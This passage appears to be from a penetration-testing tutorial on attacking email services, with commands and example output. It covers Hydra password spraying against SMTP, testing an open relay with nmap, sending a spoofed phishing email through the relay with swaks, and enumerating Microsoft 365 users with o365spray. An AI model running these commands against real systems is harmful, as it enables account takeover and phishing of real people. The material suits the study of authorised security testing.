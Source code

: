 ```
```

### Authentication Attacks

Once valid users are identified, authentication attacks can be attempted.

#### Password Spraying with Hydra

```bash
hydra -L users.txt -p 'Password123!' smtp://10.129.14.128
```

Example output:

```
[25][smtp] host: 10.129.14.128   login: admin   password: Password123!
```

### Open Relay Abuse

An SMTP open relay allows anyone to send emails through the server, which can be abused for spam or phishing.

#### Testing for Open Relay

```bash
# Using Nmap
nmap -p25 --script smtp-open-relay 10.129.14.128
```

Example output:

```
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)
```

#### Exploiting Open Relay

Using the `swaks` tool to send emails through an open relay:

```bash
swaks --from spoofed@domain.com --to victim@domain.com --header 'Subject: Urgent Action Required' --body 'Please click on this link: http://malicious.com' --server 10.129.14.128
```

### Cloud Email Services Enumeration

Modern environments often use cloud email services like Microsoft 365 or Google Workspace.

#### O365 Enumeration Example

Using the `o365spray` tool:

```bash
# Validating domain use of O365
python3 o365spray.py --validate --domain targetcompany.com

# Enumerating users
python3 o365spray.py --enum -U users.txt --domain targetcompany.com
```
